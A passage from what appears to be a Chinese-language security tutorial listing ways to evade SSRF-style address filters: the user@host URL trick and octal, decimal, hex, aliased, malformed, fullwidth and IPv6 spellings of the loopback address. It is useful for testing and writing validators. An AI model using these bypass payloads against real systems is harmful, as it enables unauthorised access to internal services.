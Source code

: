 ### 使用 @ 符号

当我们需要通过 URL 发送用户名和密码时，可以使用 http://username:password@www.xxx.com，此时 @前的字符会被当作用户名密码处理，@后面的字符才是我们请求的地址，即 `http://test.com@127.0.0.1/` 与 `http://127.0.0.1/` 请求时是相同的，而这种方法有时可以绕过系统对地址的检测。

### 不同的 IP 格式

**不同进制**

开发人员在提取或者过滤域名或者 IP 时，未考虑到 IP 的进制转换的影响，则存在被利用进制转换绕过的可能。浏览器不仅可以识别正常的 IP 地址，也可以识别八进制、十进制、十六进制等其他进制的 IP 地址，但是有时候开发人员会忽视这一点，因此有时，我们可以通过这一点去绕过防护。

> http://www.subnetmask.info/

```bash
# 8进制 (127.0.0.1)
0177.0.0.1

# 10进制 (127.0.0.1)
2130706433

# 16进制 (127.0.0.1)
0x7F.0x00.0x00.0x01

# 注意：16进制使用时一定要加0x，不然浏览器无法识别，八进制使用的时候要加0
```

**利用别名绕过**

```
http://localhost/

http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

**不规范格式**

```
http://0.0.0.0
http://127.000.000.1
http://127.1
http://127。0。0。1
http://①②⑦。0。0。①
```

**IPv6**

```
http://[::1]
http://[::]
http://[::]:80/
http://0000::1:80/
```

### Enclosed alphanumerics
